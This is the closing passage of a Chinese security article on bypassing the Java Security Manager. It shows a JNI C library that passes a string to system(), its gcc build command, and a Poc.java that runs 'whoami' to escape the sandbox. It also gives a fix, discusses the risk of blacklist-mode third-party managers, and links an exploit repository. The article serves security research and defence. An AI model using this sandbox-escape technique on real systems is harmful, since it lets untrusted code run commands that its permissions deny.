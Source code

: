 ```
        return NULL;
    `}`
    //在这里执行系统命令
    system(c_str);
    (*env)-&gt;ReleaseStringUTFChars(env, j_str, c_str);
    return (*env)-&gt;NewStringUTF(env, buff);
`}`
#ifdef __cplusplus
`}`
#endif
```

编译，生成动态链接库

```
gcc -I$JAVA_HOME/include -I$JAVA_HOME/include/linux -fPIC -shared EvilMethodClass.c -o libEvilMethodClass.so
```

放到/root/目录下<br>
Poc.java

```
public class Poc `{`
    public static void main(String[] args)`{`
        EvilMethodClass.evilMethod("whoami");
    `}`
`}`
```

我编译了Linux下的so，如下图所示，同样policy文件没有赋予文件的执行权限，却执行whoami成功，成功绕过java security manager机制，逃逸沙箱。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://i.loli.net/2018/07/10/5b449c06b94d6.png)

exp如下：[https://github.com/c0d3p1ut0s/java-security-manager-bypass/tree/master/invoke-native-method](https://github.com/c0d3p1ut0s/java-security-manager-bypass/tree/master/invoke-native-method)

修复方案：不授予loadLibrary权限



## 0x04 第三方java security manager的安全性

从上面的绕过方法来看，在给不可信的代码授予权限时需要非常谨慎，有些权限一旦授予，就可能导致整个java security manager体系的绕过。

默认java security manager的policy是白名单模式的，也就是说，只有在policy文件出现的权限才是被授予的。而有些第三方的java security manager支持黑名单模式，这样更加危险。例如[pro-grade](http://pro-grade.sourceforge.net/)，它支持黑名单模式，实现了deny语法。这意味着如果没有把上面提到的这些危险的权限禁止的话，绕过java security manager将会是非常容易的。



## 0x05 Reference
- [https://docs.oracle.com/javase/8/docs/api/java/lang/SecurityManager.html](https://docs.oracle.com/javase/8/docs/api/java/lang/SecurityManager.html)
- [https://docs.oracle.com/javase/8/docs/api/java/lang/RuntimePermission.html](https://docs.oracle.com/javase/8/docs/api/java/lang/RuntimePermission.html)
- [https://docs.oracle.com/javase/8/docs/technotes/guides/security/PolicyFiles.html](https://docs.oracle.com/javase/8/docs/technotes/guides/security/PolicyFiles.html)
这篇文章中使用的绕过的代码都已上传到[github](https://github.com/c0d3p1ut0s/java-security-manager-bypass/)。

审核人：yiwang   编辑：边边
